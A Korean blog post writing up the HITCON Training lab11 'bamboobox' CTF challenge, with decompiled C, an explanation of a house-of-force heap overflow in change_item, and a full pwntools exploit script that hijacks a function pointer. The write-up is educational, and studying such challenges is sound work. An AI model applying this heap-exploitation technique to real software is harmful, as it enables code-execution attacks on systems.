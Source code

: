 ```yaml
---
layout: post
title: "[HITCON Training] lab11"
comments : true
category : War Game
---
```


# 문제
***

bamboobox 바이너리의 checksec 결과는 다음과 같다. 
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

file 명령어의 결과는 다음과 같다.
```
bamboobox: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=595428ebf89c9bf7b914dd1d2501af50d47bbbe1, not stripped
```

바이너리 코드

__main()__
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
...
  v3 = malloc(0x10uLL);
  *v3 = hello_message;
  v3[1] = goodbye_message;
  ((void (__fastcall *)(signed __int64, _QWORD))*v3)(16LL, 0LL);
  while ( 1 )
  {
    menu();
    read(0, &buf, 8uLL);
    switch ( atoi(&buf) )
    {
      case 1:
        show_item();
        break;
      case 2:
        add_item();
        break;
      case 3:
        change_item();
        break;
      case 4:
        remove_item();
        break;
      case 5:
        ((void (__fastcall *)(char *, char *))v3[1])(&buf, &buf);
        exit(0);
        return;
      default:
        puts("invaild choice!!!");
        break;
    }
  }
}
```

__add_item()__ 
```c
__int64 add_item()
{
...
 
  else
  {
    printf("Please enter the length of item name:");
    read(0, &buf, 8uLL);
    v2 = atoi(&buf);
    if ( !v2 )
    {
      puts("invaild length");
      return 0LL;
    }
    for ( i = 0; i <= 99; ++i )
    {
      if ( !qword_6020C8[2 * i] )
      {
        *((_DWORD *)&itemlist + 4 * i) = v2;
        qword_6020C8[2 * i] = malloc(v2);
        printf("Please enter the name of item:");
        *(_BYTE *)(qword_6020C8[2 * i] + (signed int)read(0, (void *)qword_6020C8[2 * i], v2)) = 0;
        ++num;
        return 0LL;
      }
    }
  }
  return 0LL;
}
```

__change_item()__
```c
unsigned __int64 change_item()
{
...
  if ( num )
  {
    printf("Please enter the index of item:");
    read(0, &buf, 8uLL);
    v2 = atoi(&buf);
    if ( qword_6020C8[2 * v2] )
    {
      printf("Please enter the length of item name:", &buf);
      read(0, &nptr, 8uLL);
      v0 = atoi(&nptr);
      printf("Please enter the new name of the item:", &nptr);
      *(_BYTE *)(qword_6020C8[2 * v2] + (signed int)read(0, (void *)qword_6020C8[2 * v2], v0)) = 0;
    }
    else
    {
      puts("invaild index");
    }
  }
  else
  {
    puts("No item in the box");
  }
  return __readfsqword(0x28u) ^ v5;
}
```

__add_item()__ 함수에서는 할당받을 chunk의 크기를 입력 받고 해당 chunk에 item 이름을 입력 받는다. (chunk의 크기 만큼 문자열을 입력할 수 있다.) <br/>
itemlist는 chunk의 크기 (8byte), chunk의 주소 (8byte)로 구성된다. <br/><br/>
__change_item()__ 함수에서는 선택한 itemlist 항목의 item 이름을 변경한다. 그런데 이 때 입력 받을 문자열의 길이를 다시 입력으로 받는다. 이를 통해서 top chunk의 size 영역을 overwrite 할 수 있다. (__the house of force__ 공격이 가능) 

## exploit 방법
1. __change_item()__ 함수를 통해서 top chunk의 size 영역에 0xffffffffffffffff을 overwrite 한다.
2. __add_item()__ 함수를 통해서 -(새로 할당될 chunk의 주소 - (__main()__ 함수에서 v3에 할당된 chunk의 주소 - 16) ) 크기 만큼 chunk를 할당한다.
3. __add_item()__ 함수를 통해서 16 바이트 크기의 chunk를 할당하면 v3 영역이 할당 된다.
4. __change_item()__ 함수를 통해서 v3[1]을 magic 함수의 주소로 바꾼 후 v3[1]을 호출한다.


__주의할 점1__ <br/>
메모리 구조는 다음과 같다.
```
------------------
Not allocated
------------------
Heap base
------------------
Topchunk
------------------
```
the house of force 공격을 할 때 매우 큰 크기의 chunk를 할당할 때 top chunk의 size, prev_size 같은 것들이 Not allocated 영역 (write 권한이 없는 영역일 때)에 write 되지 않도록 크기를 잘 계산하자. <br/>

__주의할 점2__ <br/>
the house of force 공격을 할 때 매우 큰 크기의 chunk를 할당한 이후에 top chunk의 크기가 적절히 남도록 주의하자. <br/><br/>
예를 들어서 큰 할당 이후 top chunk가 0x38 남았을 때 내가 0x20 만큼 할당받으려고 하면 top chunk가 너무 조금 남아서 top chunk를 확장하려고 하는데 이때 malloc에서 sigabrt 에러가 발생한다. (내가 top chunk에 이상한 짓을 한 이후에 top chunk를 확장하려고 하는 상황에서 뭔가가 꼬이는 듯)

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def add_item(length,pay):
	p.recvuntil("choice:")
	p.send("2")
	p.recvuntil("name:")
	p.send(length)
	p.recvuntil("item:")
	p.send(pay)

def chan_item(index,length,pay):
	p.recvuntil("choice")
	p.send("3")
	p.recvuntil("item:")
	p.send(index)
	p.recvuntil("name:")
	p.send(length)
	p.recvuntil("item:")
	p.send(pay)

file_path="/home/sungyun/round4/lab11/bamboobox"

p=process(file_path)

add_item("16","house_of_force")
add_item("16","hmm..")

pay="A"*16+"\x00"*8
pay+="\xff\xff\xff\xff\xff\xff\xff\xff"

chan_item("1","32",pay)

add_item("-112","hi_3ffr3s")
add_item("16","exploit!")

pay2="A"*8
pay2+=p64(0x400d49) #magic

chan_item("3","16",pay2)

p.recvuntil("choice:")
p.send("5")

p.interactive()
```


